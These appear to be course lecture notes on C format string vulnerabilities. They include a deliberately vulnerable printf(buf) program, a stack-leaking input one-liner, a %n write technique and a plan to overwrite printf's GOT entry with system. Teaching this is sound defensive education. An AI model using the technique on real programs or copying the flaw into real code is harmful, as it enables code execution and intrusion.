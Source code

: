 #Format Strings

What is a format string? String with conversion specifiers.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[])
{
	char *format = "%s";
	char *arg1 = "Hello World!\n";
	printf(format, arg1);
	return 0;
}
```

##Common formats

Char | Type | Usage
-----|------|-------
d    | 4-byte | Integer
u    | 4-byte | Unsigned Integer
x    | 4-byte | Hex
s    | 4-byte ptr | String
c    | 1-byte | Character

##The length modifier

Char | Type | Usage
-----|------|-------
hh   | 1-byte | char
h    | 2-byte | short int
l    | 4-byte | long int
ll   | 8-byte | long long int

Example: `%hd`

Common uses:

  * Formatting output
  * Counting bytes written

```c
printf("%s%n", "01234", &n);
n = 5
```

#Mistakes

User controlled format string

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	char buf[100];
	fgets(buf, 100, stdin);
	printf(buf);
	return 0;
}
```

What could possibly go wrong?

#Reading data

```sh
$ python -c 'print("AAAA"+"%08x."*10)' | ./a.out
AAAA00000064.f76f8580.f7742be8.f7741ce0.fff4aedc.000000e0.41414141.78383025.3830252e.30252e78.
```

The most important parts are `AAAA` and `41414141`. Here `41414141` 
because it's now the beginning of `char buf[100]` which is 
on the stack.

```c
printf("%x%x%x...")
```

* Only gets you so far
* Have to go through **buffer** since it's on the stack
* **Limited** input size

##Direct Parameter Access

Syntax:

```c
printf("%<arg#>$<format>");
```

Examples

```c
printf("%3$d",1,2,3);
3
printf("%3$d %2$d %1$d",1,2,3);
3 2 1
```

#Writing data

Our buddy `%n`

  * Takes a **pointer** as an argument
  * *Writes* the number of bytes written so far

#Controlled writes

My shellcode is at `0xdeadbeef`, the buffer isn't that big!

How do I count that many characters?! 

`%YYYx` Specify **width**, characters count!

e.g. `%8x` prints 8 characters

`%08x` pads with `0` instead of `<space>`

#Gaining control

Things to look for

  * Return address
  * Function pointers
  * Global Offset Table (GOT)
  * Destructor List (DTOR)

Return address and Function pointers are **Stack based**, and 
Global Offset Table (GOT) and Destructor List (DTOR) are **Binary 
based**

#Global offset table

What is it? It is the **List of pointers** to dynamically linked 
symbols: `printf`,`exit`,`system`, etc.

**fmt_lec04.c**

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
  char buf[100];

  fgets(buf, 100, stdin);
  printf(buf);
  fgets(buf, 100, stdin);
  printf(buf);

 return EXIT_SUCCESS;
}
```

```
$ readelf --relocs ./fmt_lec04

Relocation section '.rel.dyn' at offset 0x4e8 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000506 R_386_GLOB_DAT    00000000   __gmon_start__
0804a028  00000f05 R_386_COPY        0804a028   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x4f8 contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000307 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```

Let's change where `printf()` goes

```
gdb -q ./fmt_lec04
(gdb) x/i system
   0xf7e43b40 <system>: sub    esp,0xc
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e43b40 <system>
```

Let's write `0xf7e43b40` (`system`) at `0x0804a00c` GOT(`printf`)
and have fun :)





